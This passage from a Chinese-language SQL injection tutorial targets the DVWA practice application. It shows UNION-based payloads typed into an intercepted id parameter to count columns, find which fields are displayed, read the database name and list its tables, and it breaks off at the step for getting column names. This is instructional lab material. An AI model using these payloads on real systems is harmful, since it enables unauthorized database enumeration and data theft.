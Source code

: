 

抓包更改参数id为1 order by 3 #，报错：



[![1.png](http://image.3001.net/images/20161122/14797988815192.png!small)](http://image.3001.net/images/20161122/14797988815192.png)



说明执行的SQL查询语句中只有两个字段，即这里的First name、Surname。



### **3.确定显示的字段顺序**



抓包更改参数id为1 union select 1,2 #，查询成功：



[![1.png](http://image.3001.net/images/20161122/14797989187637.png!small)](http://image.3001.net/images/20161122/14797989187637.png)



说明执行的SQL语句为select First name,Surname from 表 where ID=id…



### **4.获取当前数据库**



抓包更改参数id为1 union select 1,database() #，查询成功：



[![1.png](http://image.3001.net/images/20161122/14797989528253.png!small)](http://image.3001.net/images/20161122/14797989528253.png)



说明当前的数据库为dvwa。



### **5.获取数据库中的表**



抓包更改参数id为1 union select 1,group\_concat(table\_name) from information\_schema.tables where table\_schema=database() #，查询成功：



[![1.png](http://image.3001.net/images/20161122/14797989786852.png!small)](http://image.3001.net/images/20161122/14797989786852.png)



说明数据库dvwa中一共有两个表，guestbook与users。



### **6.获取表中的字段名**

